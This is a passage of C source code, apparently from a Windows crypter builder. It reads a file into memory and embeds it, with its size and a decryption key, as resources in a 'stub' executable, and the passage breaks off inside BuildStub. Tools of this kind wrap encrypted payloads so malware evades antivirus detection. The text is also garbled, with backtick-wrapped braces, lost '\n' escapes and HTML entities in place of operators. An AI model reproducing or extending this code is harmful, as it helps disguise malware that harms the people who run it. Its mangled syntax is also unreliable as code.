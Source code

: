 ```
        return NULL;
    `}`
    // get file size
    Debug("Retrieving file size...n");
    fs-&gt;dwFileSize = GetFileSize(hFile, NULL);
    if (fs-&gt;dwFileSize == INVALID_FILE_SIZE) `{`
        Debug("Get file size error: %lun", GetLastError());
        CloseHandle(hFile);
        free(fs);
        return NULL;
    `}`
    fs-&gt;dwBufSize = fs-&gt;dwFileSize;
    // create heap buffer to hold file contents
    fs-&gt;pBuffer = (PBYTE)malloc(fs-&gt;dwFileSize);
    if (fs-&gt;pBuffer == NULL) `{`
        Debug("Create buffer error: %lun", GetLastError());
        CloseHandle(hFile);
        free(fs);
        return NULL;
    `}`
    // read file contents
    Debug("Reading file contents...n");
    DWORD dwRead = 0;
    if (ReadFile(hFile, fs-&gt;pBuffer, fs-&gt;dwFileSize, &amp;dwRead, NULL) == FALSE) `{`
        Debug("Read file error: %lun", GetLastError());
        CloseHandle(hFile);
        free(fs);
        return NULL;
    `}`
    Debug("Read 0x%08x bytesnn", dwRead);
    // clean up
    CloseHandle(hFile);
    return fs;
`}`
BOOL UpdateStub(LPCSTR szFileName, FileStruct *fs) `{`
    // start updating stub's resources
    HANDLE hUpdate = BeginUpdateResource(szFileName, FALSE);
    // add file as a resource to stub
    if (UpdateResource(hUpdate, RT_RCDATA, MAKEINTRESOURCE(BUFFER_RSRC_ID), MAKELANGID(LANG_NEUTRAL, SUBLANG_NEUTRAL), fs-&gt;pBuffer, fs-&gt;dwBufSize) == FALSE) `{`
        Debug("Update resource error: %lun", GetLastError());
        return FALSE;
    `}`
    // add file size as a resource to stub
    if (UpdateResource(hUpdate, RT_RCDATA, MAKEINTRESOURCE(FILE_SIZE_RSRC_ID), MAKELANGID(LANG_NEUTRAL, SUBLANG_NEUTRAL), (PVOID)&amp;fs-&gt;dwFileSize, sizeof(DWORD)) == FALSE) `{`
        Debug("Update resource error: %lun", GetLastError());
        return FALSE;
    `}`
    // add decryption key as a resource
    if (UpdateResource(hUpdate, RT_RCDATA, MAKEINTRESOURCE(KEY_RSRC_ID), MAKELANGID(LANG_NEUTRAL, SUBLANG_NEUTRAL), fs-&gt;pKey, KEY_LEN) == FALSE) `{`
        Debug("Update resource error: %lun", GetLastError());
        return FALSE;
    `}`
    EndUpdateResource(hUpdate, FALSE);
    return TRUE;
`}`
BOOL BuildStub(LPCSTR szFileName, FileStruct *fs) `{`
    Debug("Building stub: %s...n", szFileName);
    // get stub program as a resource
    HRSRC hRsrc = FindResource(NULL, MAKEINTRESOURCE(1), "STUB");
    if (hRsrc == NULL) `{`
```